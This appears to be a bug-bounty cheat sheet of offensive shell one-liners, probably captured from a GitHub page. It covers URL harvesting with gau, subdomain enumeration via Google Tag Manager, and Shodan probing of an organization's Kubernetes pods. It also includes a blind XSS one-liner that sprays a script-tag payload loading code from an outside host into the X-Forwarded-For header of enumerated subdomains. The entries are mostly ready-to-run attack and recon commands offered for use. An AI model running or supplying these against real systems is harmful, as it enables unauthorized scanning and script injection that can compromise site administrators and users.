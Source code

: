## OneLiner
```
xargs -a alive.txt -I@ sh -c 'gau --blacklist css,jpg,jpeg,JPEG,ott,svg,js,ttf,png,woff2,woff,eot,gif "@"' | tee -a gau.txt
```

────────────────────────────────────────────────────────────────────────

# Blind XSS In X-Forwarded-For Header.

## Installation Requirements
1. BXSS         : https://github.com/ethicalhackingplayground/bxss
2. GAU          : https://github.com/lc/gau
3. Findomain    : https://github.com/Findomain/Findomain

## OneLiner
```
findomain -t TARGET.COM | gau | bxss -payload '"><script src=https://chirag.bxss.in></script>' -header "X-Forwarded-For"
```

────────────────────────────────────────────────────────────────────────

# Subdomain Enumeration with Google Tag Manager.

## OneLiner
```
curl -s "https://www.googletagmanager.com/gtm.js?id=[TARGET-GTM-ID]" | grep -oP '"key","[a-zA-Z0-9.-]+\.[a-z]{2,}"' | awk -F'"' '{print $4}'
```

────────────────────────────────────────────────────────────────────────

# Search for Kubernetes setups in a specific organization and probe them for additional info.

## OneLiner
```
shodan search org:"google" product:"Kubernetes" | awk '{print $3}' | httpx -path /pods -content-length -status-code -title
```

────────────────────────────────────────────────────────────────────────

# NodeJS Elastic Internal File Disclosure.

## Reference:
https://tripla.dk/2020/03/26/multiple-vulnerabilities-in-nodejs-ecstatic-http-server-http-party/#:~:text=4.%20INTERNAL%20PATH%20DISCLOSURE
